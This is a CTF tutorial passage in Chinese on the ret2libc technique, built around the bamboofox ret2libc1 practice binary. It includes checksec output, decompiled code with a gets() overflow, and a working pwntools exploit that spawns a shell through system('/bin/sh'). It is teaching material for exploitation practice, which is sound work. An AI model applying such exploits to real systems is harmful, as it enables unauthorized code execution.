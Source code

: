 ret2libc 即控制函數的執行 libc 中的函數，通常是返回至某個函數的 plt 處或者函數的具體位置(即函數對應的 got表項的內容)。一般情況下，我們會選擇執行 system("/bin/sh")，故而此時我們需要知道 system 函數的地址。

### 例子

我們由簡單到難分別給出三個例子。

#### 例1

這裏我們以 bamboofox 中 ret2libc1 爲例。 

> 點擊下載: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/linux/user-mode/stackoverflow/ret2libc/ret2libc1/ret2libc1)

首先，我們檢查一下程序的安全保護：

```shell
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序爲 32 位，開啓了 NX 保護。下面對程序進行反編譯以確定漏洞位置：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在執行 gets 函數的時候出現了棧溢出。此外，利用 ropgadget，我們可以查看是否有 /bin/sh 存在：

```shell
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

確實存在，再次查找一下是否有 system 函數存在。經在 ida 中查找，確實也存在。

```asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那麼，我們直接返回該處，即執行 system 函數。相應的 payload 如下：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat([b'a' * 112, system_plt, b'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
